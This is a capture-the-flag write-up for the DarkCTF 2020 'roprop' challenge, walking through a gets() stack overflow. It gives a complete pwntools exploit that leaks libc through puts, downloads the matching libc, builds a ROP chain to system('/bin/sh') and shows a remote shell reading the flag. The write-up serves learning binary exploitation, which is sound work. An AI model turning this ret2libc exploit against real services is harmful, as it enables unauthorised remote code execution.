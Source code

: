 # DarkCTF 2020

## pwn/roprop

> 171 solves / 313 points
>
> Author: gr4n173
>
> This is from the back Solar Designer times where you require rope to climb and get anything you want.
>
> `nc pwn.darkarmy.xyz 5002`
> 
> [roprop](roprop)

Tags: _pwn_ _x86-64_ _remote-shell_ _rop_ _bof_


## Summary

`gets`.

> This is virtually the same as [_return-to-what_](https://github.com/datajerk/ctf-write-ups/tree/master/downunderctf2020/return_to_what).


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No shellcode, but that's about it.


### Decompile with Ghidra


```c
undefined8 main(void)
{
  char local_58 [80];
  
  nvm_init();
  nvm_timeout();
  puts("Welcome to the Solar Designer World.\n");
  puts("He have got something for you since late 19\'s.\n");
  gets(local_58);
  return 0;
}
```

`gets` vulnerability.  Easy ROP since no canary or PIE.  To get to the return address send `0x58` bytes (gotta love how Ghidra tells you that, i.e. `local_58`).


## Exploit

### Setup

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./roprop')
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    libc = binary.libc
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    p = remote('roprop.darkarmy.xyz', 5002)
```

Boilerplate pwntools.  `context.binary` is important for ROP.  Also notice there's no `libc` set for `REMOTE` since we have to find it first.


### Leak libc

```python
rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

payload  = 0x58 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(binary.sym.main)

p.sendlineafter('He have got something for you since late 19\'s.\n\n',payload)

_ = p.recv(6)
puts = u64(_ + b'\0\0')
log.info('puts: ' + hex(puts))
```

Standard `puts` _putting_ itself out there.  With the `puts` location known we can find the version and base address of libc.  The last part of the payload jumps back to `vuln` for a second and final pass.


### Find libc

```python
if not 'libc' in locals():
    try:
        import requests
        r = requests.post('https://libc.rip/api/find', json = {'symbols':{'puts':hex(puts)[-3:]}})
        libc_url = r.json()[0]['download_url']
        libc_file = libc_url.split('/')[-1:][0]
        if not os.path.exists(libc_file):
            log.info('getting: ' + libc_url)
            r = requests.get(libc_url, allow_redirects=True)
            open(libc_file,'wb').write(r.content)
    except:
        log.critical('get libc yourself!')
        sys.exit(0)
    libc = ELF(libc_file)

libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))
```

> Something new I'm experimenting with.

The `if` block will detect and download the correct libc. `libc_url = r.json()[0]['download_url']` needs to be changed if the downloaded libc does not work, just increment the `[0]` until you get the right one.


### Get a shell, get the flag

```python
payload  = 0x58 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').__next__())
payload += p64(libc.sym.system)

p.sendlineafter('He have got something for you since late 19\'s.\n\n',payload)
p.interactive()
```

Pop a shell, get the flag.

> `p64(pop_rdi + 1)` fixes a stack [alignment issue](https://blog.binpang.me/2019/07/12/stack-alignment/), see [blind-piloting](https://github.com/datajerk/ctf-write-ups/tree/master/b01lersctf2020/blind-piloting) for a lengthy example.

Output:

```
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/darkctf2020/roprop/roprop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to roprop.darkarmy.xyz on port 5002: Done
[*] Loaded 14 cached gadgets for './roprop'
[*] puts: 0x7f17891cda30
[*] getting: https://libc.rip/download/libc6_2.27-3ubuntu1.2_amd64.so
[*] '/pwd/datajerk/darkctf2020/roprop/libc6_2.27-3ubuntu1.2_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7f178914d000
[*] Switching to interactive mode
$ ls -l
total 36
drwxr-x--- 1 0 1000 4096 Sep 25 02:12 bin
drwxr-x--- 1 0 1000 4096 Sep 25 02:12 dev
-rwxr----- 1 0 1000   29 Sep 19 11:19 flag.txt
drwxr-x--- 1 0 1000 4096 Sep 25 02:12 lib
drwxr-x--- 1 0 1000 4096 Sep 25 02:12 lib32
drwxr-x--- 1 0 1000 4096 Sep 25 02:12 lib64
-rwxr-x--- 1 0 1000 8872 Sep 21 17:50 roprop
$ cat flag.txt
darkCTF{y0u_r0p_r0p_4nd_w0n}
```

